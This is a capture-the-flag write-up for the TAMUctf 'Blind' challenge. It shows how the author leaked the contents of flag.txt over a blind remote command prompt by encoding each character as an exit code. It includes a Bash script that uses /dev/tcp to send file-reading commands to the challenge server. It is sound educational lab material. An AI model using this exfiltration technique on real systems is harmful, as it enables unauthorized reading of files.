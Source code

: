 # TAMUctf_Blind
Write up of the challenge Blind from TAMUctf
## Recon
I connected to `nc challenges.tamuctf.com 3424`

I got back the promt `Execute:`

When Typing a command a number is returned. I figured out that this must be the Linux/ UNIX exit codes.

After playing around for a bit I found out that typing `cat flag.txt` returns 0, meaning the operation was successful and a flag.txt file exists in the current directory.

## Solution
My plan was to return the flag over these error codes, since you're able to send numbers up to 255 with the `exit` command.

I wrote a short Bash script to extract the flag as decimal numbers:
```bash
#!/usr/bin/env bash

exec 3<>/dev/tcp/challenges.tamuctf.com/3424;                             #Setting up a Socket

for i in {1..30}
do
        #Convert each Byte and send exit with error code
        echo "exit \$(printf '%d' \"'\$(cat flag.txt|cut -c$i-$i)\")" >&3 
done
cat <&3
```
It sends this command `exit \$(printf '%d' \"'\$(cat flag.txt|cut -c$i-$i)\")` for the server to get executed.
I get the flag with cat `flag.txt` pipe that to `cut -c$i-$i` because I can only extract one letter at a time.
The letter gets converted to its decimal equivalent with `printf '%d' "'[Output from cat and cut]'`.

Now all that is left is to convert the flag back to ASCII and you get:
`gigem{r3v3r53_5h3ll5}`
